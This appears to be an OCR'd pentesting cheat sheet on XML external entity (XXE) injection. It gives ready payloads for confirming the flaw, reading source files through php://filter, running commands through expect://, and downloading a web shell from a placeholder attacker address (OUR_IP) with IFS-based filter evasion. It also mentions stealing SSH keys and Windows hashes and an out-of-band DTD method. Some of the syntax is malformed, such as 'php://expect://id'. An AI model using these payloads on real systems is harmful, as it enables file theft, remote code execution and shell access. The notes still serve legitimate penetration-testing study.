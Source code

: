##### **Confirmation**

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [
	<!ENTITY hello "Hello">
]>
<data>&hello;</data>
```

- data: vulnerable parameter, the *reflected* one.
- If the `DOCTYPE` was already declared, just add the `ENTITY`.
- If vulnerable, it would print "Hello"

##### Exploits

- **`php` application**

  - File read:

    ```xml
    <!ENTITY hello SYSTEM "php://filter/convert.base64-encode/resource=index.php">
    ```

  - Command execution (if reflected, and the filter is installed)

    1. Execute basic commands

       ```xml
       <!ENTITY hello SYSTEM "php://expect://id">
       ```

    2. Gain a shell:

       3. Write a web shell, and open a server

       4. Upload the shell on the web server with `expect`

          ```xml
          <!ENTITY hello SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
          ```

       5. Interact

- **Reflected File read**

  ```xml
  <!DOCTYPE foo [<!ENTITY hello SYSTEM "FILE"> ]>
  ```

  - ssh keys 

  - Windows hash stealing

  - If the sintax breaks the xml:

    ```bash
    echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
    httpserv
    ```

